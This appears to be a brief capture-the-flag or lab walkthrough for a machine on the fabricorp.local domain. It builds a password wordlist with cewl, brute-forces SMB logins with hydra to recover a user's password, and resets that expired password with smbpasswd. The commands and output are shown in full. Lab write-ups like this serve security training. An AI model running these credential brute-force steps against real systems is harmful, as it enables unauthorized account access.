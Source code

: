 ## Brute Force
#### Cewl to get a pwd dictionary
It may take a minute or so
```
❯ cewl --with-numbers http://fuse.fabricorp.local/papercut/logs/html/index.htm -w cewl3.txt  
CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```


#### Hydra
It may take two or three minutes
```
❯ cat users.txt  
pmerton  
tlavel   
❯ export IP=10.129.2.5           
❯ hydra -L users.txt -P cewl3.txt $IP smb
[445][smb] host: 10.129.2.5   login: tlavel   password: Fabricorp01
```
## SMB 
#### smbclient
```
❯ smbclient -L $IP -U tlavel  
Password for [WORKGROUP\tlavel]:  
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
```
#### smbpasswd to update it
```
smbpasswd -r $IP -U tlavel
```